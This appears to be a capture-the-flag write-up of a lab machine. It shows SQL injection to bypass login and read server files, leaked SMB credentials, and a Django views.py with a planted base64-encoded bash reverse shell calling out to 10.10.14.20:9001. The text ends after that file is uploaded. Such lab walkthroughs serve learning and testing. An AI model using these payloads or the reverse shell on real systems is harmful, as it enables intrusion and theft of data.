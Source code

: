 I'll start with a port scan using my alias `fscan` which launches a default script and version scan against the ports found from a full port scan.

<img src='Images/fscan.png'>

We see ssh on port 22, apache serving a website on port 80 and samba on 139/445. I'll quickly see what I can do over smb.

<img src='Images/smbmap.png'>

I don't have any access here. I'll revisit if I find some credentials.

<img src='Images/gobuster.png'>

Gobuster finds a directory called `administrative`. It leads to a login page:

<img src='Images/administrative.png'>

I'll test for SQL injection with the payload `admin'-- -`. This logs me in. I suspect the query is along the lines of 

`select * from users where username={username} and password=md5({password})`

so my injection malforms the query into

`select * from users where username=admin` 

which authenticates me as the admin user. I'll come back and examine the injection further if need be.

I get redirected to `/dashboard`.

<img src='Images/dashboard.png'>

clicking around I find a `/stories` directory.

<img src='Images/stories.png'>

It has the option to upload a `.jpg` file from the local computer or to upload a file from a url. 

<img src='Images/storiesadd.png'>

I'll upload a `jpg` and intercept the request in burpsuite. I'll append `.php` to the filename, change the mimetype to `application/x-php` and append a simple command injection payload after the magic bytes.

<img src='Images/bugmodified.png'>

I can see the file has sucessfuly upload to the `/static/img` folder. 

<img src='Images/staticimg.png'>

Visiting the url `static/img/bug.jpg.php?cmd=id` returns an error however. It seems the webpage isn't configured to execute `php` despite the extension.

<img src='Images/fail.png'>

I'll revisit the sql injection to see what I can do here. I know the username parameter is injectable. I'll try the payload `test' union select 1,2,3,4,5,6` for the username and a random password. Intercepting the response in burpsuite I see `2` gets reflected back onto the webpage as `welcome 2`

<img src='Images/union.png'>

Next I'll try changing the 2 for `LOAD_FILE('/etc/passwd')` and I see the contents of `/etc/passwd` are returned so I have LFI.

<img src='Images/loadfile.png'>

I'll create a quick python script to send the injection payload including the specified file as the first argument of the script to the login page, parse out the file contents and save the file. I'll use mysql's `TO_BASE64()` function to return the base64 encoded file to avoid HTML entity encoding in the response HTML.

<img src='Images/script.png'>

I'll check the website configuration by including the file `/etc/apache2/sites-enabled/000-default.conf`

<img src='Images/sites-enabled.png'>

It shows the root of the website is `/var/www/writer.htb` and there's a `.wsgi` file which I'll check out. It also points to a development site on port `8080` only accessible through localhost. If a can find an SSRF I could interact with this site.

<img src='Images/wsgi.png'>

There's a comment about an `__init__.py` file which I'll read next. The exact location of the file is a bit ambiguous as `from writer import...` could mean a file `writer.py` or a parent directory `/writer`, but trying the path `/var/www/writer.htb/__init__.py` works. This file leaks some credentials:

<img src='Images/__init__.png'>

From `/etc/passwd` I saw the user `kyle`. I'll try the credentials `kyle:ToughPasswordToCrack` against smb.

<img src='Images/authsmbmap.png'>

The credentials work and grant me read/write access to the `writer2_project` share. This is likely the development site only accessible from localhost on port `8080`. I'll use `smbclient //10.10.11.101/writer2_project -u kyle -p ToughPasswordToCrack` to access the share. This is interesting as I could write a payload into the share and if I can cause it to execute on the server I'll have RCE. Listing the contents of the share shows 

<img src='Images/writer_proj.png'>

`writer_web/urls.py` contains

```
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
```

This says any URI will redirect to `/home` and load `views.home_page`. This file imports `view.py` which contains the `home_page` function

```
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

so I can write a reverse shell into the `home_page` function and it will execute when I load any page on the site. Since this site isn't accessible externally I'll need an SSRF to trigger the payload. An SSRF is when you send a specially crafted request to a server and the server executes a request on your behalf. This allows access to functionality you can't directly obtain. Luckily, when we uploaded the `.jpg` files to the `/stories` directory there was an option to upload from a url. If we get the server to process a request to `127.0.0.1:8080` we'll be able to execute our payload.

I'll use the reverse shell `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/9001 0>&1"`, base64 encode it to avoid special characters and use `os.sytem(.)` to execute shell commands. All together `views.py` becomes

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)
```

I'll upload this to the share with 
`smb: \writer_web\> put views.py`
